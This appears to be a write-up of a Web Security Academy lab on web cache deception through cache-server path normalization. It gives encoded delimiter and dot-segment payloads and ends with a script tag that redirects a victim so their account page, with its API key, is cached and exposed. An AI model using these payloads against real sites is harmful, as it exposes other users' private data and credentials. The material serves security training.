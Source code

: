 Title: Exploiting cache server normalization for web cache deception
Level: Practitioner
Desc: To solve the lab, find the API key for the user carlos. You can log in to your own account using the following credentials: wiener:peter.
We have provided a list of possible delimiter characters to help you solve the lab: Web cache deception lab delimiter list. 

Note: 
`
 If the cache server resolves encoded dot-segments but the origin server doesn't, you can attempt to exploit the discrepancy by constructing a payload according to the following structure:
/<dynamic-path>%2f%2e%2e%2f<static-directory-prefix>
`

Note 2:
`
When exploiting normalization by the cache server, encode all characters in the path traversal sequence.
`

Note 3:
`
To exploit this discrepancy, you'll need to also identify a delimiter that is used by the origin server but not the cache.
For example, consider the payload /profile;%2f%2e%2e%2fstatic. The origin server uses ; as a delimiter:

    The cache interprets the path as: /static
    The origin server interprets the path as: /profile
`

the sign '?' as delimeter and also '%3F'
![image](https://github.com/user-attachments/assets/badb8452-9afe-4a41-a595-91e81c5ff598)

out payload path: `/my-account?%2f%2e%2e%2fresources/`

![image](https://github.com/user-attachments/assets/e84ed1c6-4637-418d-93ed-ca74ae9cd2bc)

But in case of sign '?' and '%3F' there is no cahing headers. But I found that '#' sign also works as delimeter. Percent encoded as hex is '%23'.
So the path should look like: `/my-account%23%2f%2e%2e%2fresources/`
Proxy see this like `/resources` (proxy have a cache rule on this path)
Server see this like: `/my-account` (it respects the delimeter)

Now we can add some `?random` to make proxy cache remember unique responses. Server still se that as request to the: `/my-account`



`<script>document.location="https://0a040073046cf4e880a7030d00ae009f.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?xyzsppodsd"</script>`

![image](https://github.com/user-attachments/assets/2a499919-61c7-488f-a40e-7c3e5c2d6b59)











